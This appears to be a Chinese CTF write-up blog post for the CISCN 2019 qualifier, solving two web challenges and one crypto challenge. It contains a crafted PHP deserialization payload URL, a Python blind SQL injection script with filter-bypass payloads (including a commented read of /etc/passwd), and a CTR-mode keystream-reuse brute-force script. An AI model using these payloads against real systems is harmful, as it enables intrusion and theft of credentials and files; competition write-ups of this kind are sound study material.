 ```yaml
---
title: Ciscn 2019 初赛 Writeup
date: 2019-04-25 00:23:14
tags: [writeup]
---
```


输出了两题 web + 一题 crypto, 太菜了 QAQ  
因为也是要交上去的, 就写的比较简单了.  

<!-- more -->

## JustSoso

根据html内的提示, `php://filter/read=convert.base64-encode/resource=index.php`  
和 `php://filter/read=convert.base64-encode/resource=hint.php` 得到源码,  
之后代码审计.  

1. 通过 ///index.php 使 parse_url 返回 false, 绕过 payload 内不能有 flag 的限制
2. 通过引用的方式, 绕过 $this->token === $this->token_flag
3. 将序列化后的字符串 `"Handle":1` 的改为 2, 使其反序列时不调用 __wakeup 魔术方法, 让 handler 正常调用

最后 payload:  
`http://fe95bbad6a4f406cbd981c3496fb83f2be3784a02dfb46d1.changame.ichunqiu.com///index.php?file=hint.php&payload=O%3A6%3A%22Handle%22%3A2%3A%7Bs%3A14%3A%22%00Handle%00handle%22%3BO%3A4%3A%22Flag%22%3A3%3A%7Bs%3A4%3A%22file%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A10%3A%22token_flag%22%3Bs%3A32%3A%226754e06e46dfa419d5afe3c9781cecad%22%3Bs%3A5%3A%22token%22%3BR%3A4%3B%7D%7D`


## 全宇宙最简单的SQL

尝试 `admin'asdasd` 返回数据库操作失败, 说明存在注入漏洞,  
尝试盲注但是发现 `benchmark` 和 `sleep` 全部被替换为 `QwQ`, 随即尝试布尔注入,  
发现 `if` 和 `case` 也被过滤. 最后用短路求值的方式代替 if, 并用 `exp(710)` 产生错误,  
如果前面语句返回 true, 将返回数据库操作失败, 如果前面语句返回 false, 返回账号登录失败. 且表名为常见名称 user,  
列名通过虚表的方式绕过.

```python
import requests
import string
from tqdm import tqdm
# url = "http://0d3316846cd2408dbfdf95808c03f3f5714e7d9655ee4d4e.changame.ichunqiu.com/"
url = "http://106.119.182.216/"
# username=asd'/**/and/**/1=(SELECT/**/database()/**/like/**/'z')/**/and/**/exp(710)#&password=admin
sess = requests.session()
sess.headers["Host"] = "0d3316846cd2408dbfdf95808c03f3f5714e7d9655ee4d4e.changame.ichunqiu.com"
# database: ctf
# table: user
# 2 col
# /fll1llag_h3r3 2,F1AG@1s-at_/fll1llag_h3r3
# f"asd'/**/and/**/1=(SELECT/**/version()/**/like/**/'{i}')/**/and/**/exp(710)#",
# asd'/**/and/**/1=(select(SELECT/**/group_concat(`1`)/**/from/**/(select/**/1,2/**/union/**/select/**/*/**/from/**/user)asd)/**/like/**/'a%')/**/and/**/exp(710)#
# f"asd'/**/and/**/1=(select(SELECT/**/hex(group_concat(`2`))/**/from/**/(select/**/1,2/**/union/**/select/**/*/**/from/**/user)asd)/**/like/**/'{tmp}%')/**/and/**/exp(710)#",
# f"asd'/**/and/**/1=(select/**/load_file(0x2f6574632f706173737764)/**/like/**/'{tmp}')/**/and/**/exp(710)#",
#table = string.printable[:-5]
#table = table.replace("%", '')
#table = table.replace("'", "")
#table = table.replace("\\", "")
table = "0123456789ABCDEF"
curr = ''
for _ in range(999):
    for i in tqdm(table):
        tmp = curr + i + "%"
        data = {
            "username": f"asd'/**/and/**/1=(select(SELECT/**/hex(group_concat(`2`))/**/from/**/(select/**/1,2/**/union/**/select/**/*/**/from/**/user)asd)/**/like/**/'{tmp}%')/**/and/**/exp(710)#",
            "password": "admin"
        }
        success = False
        while not success:
            try:
                res = sess.post(url, data, timeout=2)
                success = True
            except Exception:
                pass
        res = res.content
        res = res.decode('utf-8')
        if "数据库操作" in res:
            curr += i
            print(curr)
            break
        if i == table[-1]:
            raise Exception
```
![](https://i.loli.net/2019/04/25/5cc08eb862dd6.png)

最后得到 admin 的密码为 `F1AG@1s-at_/fll1llag_h3r3`, 尝试直接 load_file读取失败.  
应该是没有权限, 随即在web上尝试登录admin, 发现是 mysql 客户端连接并执行语句的服务.  
猜测有客户端读任意文件的漏洞, 可以直接拿到flag文件.

![](https://i.loli.net/2019/04/25/5cc08eb884ce6.png)
![](https://i.loli.net/2019/04/25/5cc08eb889b62.png)


## warmup

题目采用的是 CTR 模式, 而且每次加密采用同一计数器,  
只要第一次发送空, 之后每次爆破一位比对是否与第一次对应位置的值相同即可.  

```python
from remoteCLI import CLI
from binascii import unhexlify
import string
from tqdm import tqdm

result = r'result>([0-9a-f]{0,})'

cli = CLI()
cli.connect("fc32f84bc46ac22d97e5f876e3100922.kr-lab.com", 12345)
cli.sendLine('')
res = cli.recvUntilFind(result)[0]
flag = unhexlify(res)
flagLen = len(flag)
table = string.printable[:-5]
curr = ''
for seq in range(flagLen):
    for i in tqdm(table):
        cli.sendLine(curr + i)
        res = cli.recvUntilFind(result)[0]
        res = unhexlify(res)
        if res[seq] == flag[seq]:
            curr += i
            print(curr)
            break
```